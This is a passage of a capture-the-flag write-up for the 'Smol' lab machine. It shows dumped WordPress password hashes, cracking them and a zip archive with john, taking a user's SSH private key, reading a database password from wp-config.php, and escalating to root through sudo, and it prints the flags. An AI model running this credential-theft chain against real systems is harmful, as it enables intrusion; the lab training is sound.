|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |                                                                                                                     
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |                                                                                                                     
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |                                                                                                                     
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |                                                                                                                     
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |                                                                                                                     
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                                                                                                     
6 rows in set (0.00 sec)
```

### Crack password for user deigo and su to this user

The hashes we got:
```bash
mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
6 rows in set (0.00 sec)
```



and in one list:
```bash
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
wpuser:$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

Using `john` we maneged to crack the passwords, after several minutes we found the password `sandiegocalifornia`.
```bash
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ cat credentials.txt | cut -d ":" -f2 > hashes.txt 

┌──(agonen㉿kali)-[~/thm/Smol]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:15:39 8.02% (ETA: 13:53:30) 0g/s 1381p/s 8289c/s 8289C/s shadowcat7..shadglmoss
sandiegocalifornia (?)     
```

Next, we'll brute force with `hydra` to find the user this password belongs to, when we try to connect via `ssh`.
Oh now, The ssh connection don't allow password, only pubkey ,mechanisem.

So, we'll try to `su` to each user manually



As we can see, we maneged to `su` to user `diego`, so, these is the credentials:
```bash
diego:sandiegocalifornia
```

And we got user flag.

```bash
diego@ip-10-10-215-33:~$ cat user.txt 
45edaec653ff9ee06236b7ce72b86963
```

### Find private key of user think and login via ssh

I executed linpeas using `run peass_ng` in `penelope`, and find that the private key of user `think` is avilable:



So, I downloaded the file , and change its permissions, that only the owner will be able to deal with the file.

Here I set up python http server



And then on local machine:



So, this is what we've done:
```bash
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ chmod 700 id_rsa                              
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Smol]
└─$ ssh think@www.smol.thm -i id_rsa              
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu 13 Nov 2025 09:58:50 AM UTC

  System load:  0.03              Processes:             141
  Usage of /:   70.1% of 9.75GB   Users logged in:       0
  Memory usage: 28%               IPv4 address for ens5: 10.10.215.33
  Swap usage:   0%

  => There are 7 zombie processes.

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support on 31 Ma
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

37 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 20.04 at
https://ubuntu.com/20-04


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Thu Nov 13 09:55:42 2025 from 10.9.2.147
think@ip-10-10-215-33:~$ 
```

### Crack password of /home/gege/wordpress.old.zip and extract the password of xavi from wp_config.php

We execute linpeas, and find the file `/home/gege/wordpress.old.zip` inside the home directory of use `gege`.



However, we can't read the file:

```bash
think@ip-10-10-155-118:~$ ls -la /home/gege/wordpress.old.zip
-rwxr-x--- 1 root gege 32266546 Aug 16  2023 /home/gege/wordpress.old.zip
```

I tried to find someway to be user `gege` or `root`, but nothign worked. Then, I just tried to execute `su gege` and it worked!


Now, we can `unzip` the file. I tried to `unzip` the file, but it asksed for password.



So, I downloaded `wordpress.old.zip` and used `john` to crack it, using `zip2john`.

```bash
zip2john wordpress.old.zip > hashes.txt
```

and then crack the password.
```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```


so, the password is `hero_gege@hotmail.com`.

Now, unzip with the flag `-q` to make it quietly

```bash
unzip -q wordpress.old.zip
```



Then, we can go again to `wp-config.php`, and check if there is another password there.
```php
┌──(agonen㉿kali)-[~/thm/Smol/wordpress.old]
└─$ cat wp-config.php # | xclip -sel clip
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', true );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

This is what we have
```php
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );
```

Okay, so now we have this credentials:
```bash
xavi:P@ssw0rdxavi@
```

We can `su` to xavi with the password we found:



### Use sudo to get root flag

When we check our `sudo` permissions we find out we can do everything!

```bash
xavi@ip-10-10-155-118:~$ sudo -l
Matching Defaults entries for xavi on ip-10-10-155-118:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-155-118:
    (ALL : ALL) ALL
```

So, let's grab the root flag and finish the machine.



```bash
xavi@ip-10-10-155-118:~$ sudo cat /root/root.txt
bf89ea3ea01992353aef1f576214d4e4
```